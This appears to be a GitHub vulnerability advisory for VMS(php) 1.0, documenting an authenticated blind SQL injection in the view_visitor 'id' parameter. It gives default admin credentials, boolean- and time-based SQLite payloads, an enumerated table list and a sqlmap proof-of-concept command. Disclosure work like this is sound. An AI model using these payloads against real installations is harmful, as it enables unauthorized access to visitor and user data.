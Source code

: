 <div align="center">
    <h1>VMS(php) Visitor Management System</h1>
    <h3>💉 Authenticated Blind SQL Injection (View Visitor) 💉</h3>
    <br />
    <!-- Vendor -->
    <a href="https://www.sourcecodester.com/">
        <img src="https://img.shields.io/badge/vendor-sourcecodester.com-8DD6F9?style=for-the-badge&logo=webpack" alt="Vendor: sourcecodester.com" title="Vendor: sourcecodester.com" />
    </a>
    <!-- Version & Download -->
    <a href="https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-vms.zip">
        <img src="https://img.shields.io/badge/version-1.0-F16728?style=for-the-badge&logo=vitess" alt="Version: 1.0" title="Version: 1.0" />
    </a>
    <!-- Vulnerability -->
    <a href="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection">
        <img src="https://img.shields.io/badge/vulnerability-Blind%20SQL%20Injection-EAEAEA?style=for-the-badge&logo=owasp" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <!-- Exploit -->
    <a href="#">
        <img src="https://img.shields.io/badge/exploit-Not found-494649?style=for-the-badge&logo=hackaday" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <br />
</div>

---

## 📝 Description

VMS(php) 1.0 allows Authenticated Blind SQL Injection (Time-based & Boolean-based) via the GET parameter `id` in the `/?page=view_visitor` endpoint.

This endpoint can be triggered through the following menu: Visitor List > Action > View visitor.

## ℹ️ Information

**Entrypoint**: http://localhost/php-sqlite-vms/

**Default credentials**:

| Username | Password |
| --- | --- |
| admin | sourcecodester&123 |

## 💉 Injection Point

```sql
Parameter: id (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: /?page=view_visitor&id=4' AND 2488=2488 AND 'cutA'='cutA

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: /?page=view_visitor&id=4' AND 5085=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'UtVl'='UtVl
```

## 📋 Database Schema

```
[3 tables]
+-----------------+
| sqlite_sequence |
| user_list       |
| visitor_list    |
+-----------------+
```

## 🕹️ Proof of Concept

```sh
sqlmap --url 'http://localhost/php-sqlite-vms/?page=view_visitor&id=1' -p 'id' --dbms 'sqlite' --technique 'BT' --cookie 'PHPSESSID=9447ea9b...'
```